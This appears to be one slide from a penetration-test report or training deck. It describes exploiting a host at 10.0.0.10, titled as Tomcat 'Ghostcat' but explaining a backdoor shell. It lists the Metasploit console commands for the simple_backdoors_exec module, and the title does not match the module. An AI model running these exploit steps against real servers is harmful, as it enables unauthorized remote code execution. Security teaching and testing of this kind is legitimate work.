

# Exploitation on Host 10.0.0.10
Apache Tomcat AJP Connector Request Injection (Ghostcat)
A Simple Backdoor Shell allows attackers to execute arbitrary remotely
code on a compromised server. This type of vulnerability typically arises
from malicious files or scripts uploaded to a vulnerable system, enabling
attackers to control the server remotely.

msf > use exploit/multi/http/simple_backdoors_exec
msf exploit(simple_backdoors_exec) > show targets ...targets...
msf exploit(simple_backdoors_exec) > set TARGET < target-id >
msf exploit(simple_backdoors_exec) > show options ...show and set options...
msf exploit(simple_backdoors_exec) > exploit
8